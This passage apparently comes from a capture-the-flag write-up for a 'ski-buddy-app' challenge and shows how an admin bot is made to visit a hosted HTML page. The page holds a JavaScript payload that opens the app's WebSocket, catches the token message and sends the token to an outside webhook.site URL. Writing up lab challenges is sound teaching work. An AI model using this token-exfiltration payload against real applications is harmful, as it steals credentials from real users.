 ![Local Webpage](./images/local_webpage.png)

Let us try submitting `ws://ski-buddy-app:8000/ws`* as the URL:

![Unknown URL Scheme](./images/unknown_url_scheme.png)

Notice that we get the `ERR_UNKNOWN_URL_SCHEME` error, so it is likely that we can only use protocols like `HTTP` and `HTTPS`.

* Note: I use `ski-buddy-app` as the host as inferred from the `compose.yaml` file:

```
services:
  ski_buddy_app:
    container_name: ski-buddy-app
    build:
      context: ski-buddy
      dockerfile: Dockerfile
    restart: always
    ports:
      - "33335:8000"
```

So how do we get the admin bot to run code then? Well, to solve that issue, we should create a HTML file containing a JavaScript code, host the file, and get the admin bot to visit it. For now, we will create a file called `test.html` and host it (locally) using `python3 -m http.server`.

The following are the contents of the HTML file that we use. We can use [webhook.site](https://webhook.site/) to serve as a proxy for communications and as a place to collect our data.

```html
<script>
    const ws = new WebSocket('ws://ski-buddy-app:8000/ws'); // Use Docker service name
    ws.onmessage = (e) => {
        const data = JSON.parse(e.data);

        if (data.type === "token") {
            fetch("https://webhook.site/bbd240d1-8cc3-43ac-a0aa-1b8251864662?data=" + encodeURIComponent(data.token));
        }

    };
</script>
```
